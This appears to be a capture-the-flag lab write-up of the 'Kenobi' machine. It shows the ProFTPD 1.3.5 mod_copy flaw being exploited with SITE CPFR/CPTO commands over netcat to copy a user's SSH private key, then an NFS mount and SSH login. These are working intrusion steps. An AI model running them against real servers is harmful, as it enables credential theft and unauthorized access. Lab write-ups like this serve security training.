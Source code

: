   Using the cmd `searchsploit ProFTPd 1.3.5` we get the response.
  ```
  ---------------- ----------------------------------------
 Exploit Title  |  Path
                | (/usr/share/exploitdb/)
---------------- ----------------------------------------
ProFTPd 1.3.5 - | exploits/linux/remote/36742.txt
ProFTPd 1.3.5 - | exploits/linux/remote/36803.py
ProFTPd 1.3.5 - | exploits/linux/remote/37262.rb
---------------- ----------------------------------------
  ```
From there we can see that this version of ProFTPD lets up copy files and move to certain directories as anonymous. With that we can move the ssh key into the /var/tmp directory which can be accessed via the open NFS share on port 111
```
nc 10.10.191.44 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.191.44]

500 Invalid command: try being more creative
CPFR
500 CPFR not understood
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTP /var/tmp/id_rsa
500 'SITE CPTP' not understood
SITE CPTO /var/tmp/id_rsa
250 Copy successful
421 Login timeout (300 seconds): closing control connection
```
We can mount the var share via `sudo mkdir /mnt/kenobiNFS` then `sudo mount [machineIP]:var /mnt/kenobiNFS` then when we `ls -la /mnt/kenobiNFS` we can see the `/var` directory which has the copied `id_rsa` which we can try to use and ssh into the port we scanned into earlier with nmap.

We correct the permissions for the id_rsa file with `sudo chmod 600 id_rsa` and then ssh in with `ssh -i id_rsa kenobi@[machineIP]`. With that we can get the user flag and gain persistance from there.
```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls -la
total 40
drwxr-xr-x 5 kenobi kenobi 4096 Sep  4  2019 .
drwxr-xr-x 3 root   root   4096 Sep  4  2019 ..
lrwxrwxrwx 1 root   root      9 Sep  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 kenobi kenobi  220 Sep  4  2019 .bash_logout
-rw-r--r-- 1 kenobi kenobi 3771 Sep  4  2019 .bashrc
drwx------ 2 kenobi kenobi 4096 Sep  4  2019 .cache
-rw-r--r-- 1 kenobi kenobi  655 Sep  4  2019 .profile
drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
drwx------ 2 kenobi kenobi 4096 Sep  4  2019 .ssh
-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt
-rw------- 1 kenobi kenobi  642 Sep  4  2019 .viminfo
kenobi@kenobi:~$ cat user.txt
```

[2]: ./resources/log.txt